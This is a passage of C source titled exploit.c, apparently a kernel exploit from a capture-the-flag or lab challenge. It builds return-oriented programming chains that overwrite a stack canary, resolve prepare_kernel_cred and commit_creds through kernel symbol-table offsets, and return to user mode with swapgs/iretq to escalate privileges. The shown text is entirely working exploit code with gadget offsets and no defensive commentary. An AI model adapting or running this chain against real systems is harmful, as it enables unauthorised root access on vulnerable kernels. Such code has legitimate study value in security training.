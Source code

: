 ```exploit.c
}

void level2(void){
  ulong ret;
  asm(
      "movq %0, %%rax\n"
      : "=r"(ret)
  );
  prepare_kernel_cred = (signed long)kernbase + (signed long)0xf8d4fc + (signed int)ret;
  printf("[!] reached Level-2\n");
  printf("[!] prepare_kernel_cred: 0x%lx\n", prepare_kernel_cred);

  // into level3
  save_state();
  ulong *c = &wbuf[CANARY_OFF];
  memset(wbuf, 'A', 0x200);
  *c++ = canary;
  *c++ = '1'; // rbx
  *c++ = '2'; // r12
  *c++ = '3'; // rbp
  *c++ = kernbase + 0x006370; // pop rdi
  *c++ = 0;
  *c++ = prepare_kernel_cred;
  *c++ = kernbase + 0x200f23; // go home(swapgs & iretq)
  printf("[!!!] 0x%lx\n", *(c-1));;
  for(int ix=0; ix!=5; ++ix) // rcx, rdx, rsi, rdi, none
    *c++ = 'A' + ix + 1;
  *c++ = &level3;
  *c++ = user_cs;
  *c++ = user_rflags;
  *c++ = user_sp;
  *c++ = user_ss;
  _write(fd, wbuf, 0x130);

  errExit("level2");
}

void level1(void){
  ulong ret;
  asm(
      "movq %0, %%rax\n"
      : "=r"(ret)
  );
  commit_creds = (signed long)kernbase + (signed long)0xf87d90 + (signed int)ret;
  printf("[!] reached Level-1\n");
  printf("[!] commit_creds: 0x%lx\n", commit_creds);

  // into level2
  save_state();
  ulong *c = &wbuf[CANARY_OFF];
  memset(wbuf, 'A', 0x200);
  *c++ = canary;
  *c++ = '1'; // rbx
  *c++ = '2'; // r12
  *c++ = '3'; // rbp
  *c++ = kernbase + 0x4D11; // pop rax
  *c++ = kernbase + 0xf8d4fc; // __ksymtab_prepare_kernel_cred
  *c++ = kernbase + 0x015a80; // mov eax, dword[rax]; pop rbp;
  *c++ = 'A'; // rbp
  *c++ = kernbase + 0x200f23; // go home(swapgs & iretq)
  for(int ix=0; ix!=5; ++ix) // rcx, rdx, rsi, rdi, none
    *c++ = 'A' + ix + 1;
  *c++ = &level2;
```